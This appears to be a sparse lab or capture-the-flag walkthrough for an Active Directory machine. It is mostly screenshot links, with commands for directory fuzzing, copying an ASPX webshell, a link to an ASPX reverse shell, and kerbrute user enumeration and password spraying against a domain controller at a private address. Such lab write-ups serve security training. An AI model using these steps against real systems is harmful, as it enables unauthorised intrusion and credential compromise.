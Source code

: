 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a1e9008-596b-411b-a72c-c78ff662881e)

```
 ftp 192.168.2.7
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bc1c825-1fc4-4d95-9a09-fe388d53957a)

https://infinitelogins.com/2020/01/20/hack-the-box-write-up-devel-without-metasploit/

```
ffuf -u http://192.168.2.7/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/96189e50-7fbe-424f-a226-54b0ae4e900c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a9e919aa-648a-4707-a4be-611d6dd10edb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8cc07b6b-174b-4655-8f82-eceebbfd4045)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d652f58-07c9-4bfc-9d38-0239ad8c0993)
```
cp /usr/share/webshells/aspx/cmdasp.aspx ~/CodeBy/AD/Bunker
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/883a0640-90f6-4ee3-8793-26b4ba0404a1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ea7c9cc-dc4f-49d2-a5bb-936057587b02)

https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e203fc9d-91e8-4ecf-aa6c-31ecf0542711)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1819789f-6478-49dd-813c-8872a73e1adf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2841c526-af31-451e-b87e-7537340f1c5e)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.7 user.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/85ec86f3-29ce-4038-9789-c50a835dea9a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/894b6ab0-ba5c-4bdf-a5ce-28d1355d7f25)
```
./kerbrute_linux_amd64 passwordspray -d codeby.cdb --dc 192.168.2.7 user.txt PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ef6abbee-9f62-443c-be53-d41e2b778b05)
```
enum4linux-ng 192.168.2.7 -u 'kristina.levashova' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bcc55e3-d1eb-456b-9ae4-eaac391d0aa5)

